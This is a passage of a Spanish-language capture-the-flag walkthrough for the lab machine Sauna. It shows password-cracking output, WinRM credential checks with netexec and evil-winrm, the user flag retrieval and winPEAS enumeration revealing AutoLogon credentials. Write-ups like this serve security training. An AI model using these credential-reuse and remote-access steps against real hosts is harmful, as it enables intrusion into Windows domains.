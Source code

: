 ~~~bash
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10539008/14344385 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10537984/14344385 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Throy1 -> Thelittlemermaid
Hardware.Mon.#1..: Util: 53%

Started: Fri Oct 10 18:36:40 2025
Stopped: Fri Oct 10 18:37:20 2025
~~~
Con la contraseña, vale la pena probarlas para ver a que servicios tiene acceso.
Probando las credenciales para winrm se ve que tiene acceso.
~~~bash
sudo netexec winrm 10.10.10.175 -u 'fsmith' -p pass
WINRM       10.10.10.175    5985   SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:T<SNIP>3 (Pwn3d!)
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
evil-winrm -i 10.10.10.175 -u fsmith -p 'T<SNIP>3'                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ..
*Evil-WinRM* PS C:\Users\FSmith> cd desktop
*Evil-WinRM* PS C:\Users\FSmith\desktop> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios

### Enumeración de escalada automatizada
Al revisar los permisos y/o privilegios de manera manual no se pudo encontrar nada importante, entonces pasando a utilizar winpeas, se encontraron algunas credenciales.
~~~powershell
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winpeasx64.exe
<SNIP>
ÉÍÍÍÍÍÍÍÍÍÍ¹ Home folders found
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\FSmith : FSmith [AllAccess]
    C:\Users\Public
    C:\Users\svc_loanmgr

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
~~~